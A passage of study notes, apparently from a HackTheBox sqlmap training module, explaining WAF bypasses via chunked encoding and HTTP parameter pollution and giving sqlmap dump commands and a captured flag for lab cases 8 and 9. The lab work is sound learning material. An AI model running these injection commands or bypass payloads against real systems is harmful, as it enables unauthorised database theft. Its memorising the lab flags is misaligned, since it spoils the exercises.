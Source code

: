 ### Miscellaneous Bypasses

Out of other protection bypass mechanisms, there are also two more that should be mentioned. The first one is the `Chunked` transfer encoding, turned on using the switch `--chunked`, which splits the POST request's body into so-called "chunks." Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed.

The other bypass mechanisms is the `HTTP parameter pollution` (`HPP`), where payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`).

## Questions

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204174249.png)

### Case 8

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204174531.png)

Let's use the following:

```
python3 sqlmap.py -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
```

We get this:

```
Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

Flag is `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`

### Case 9

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204175407.png)

Let's use the following sqlmap command:

```
python3 sqlmap.py -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
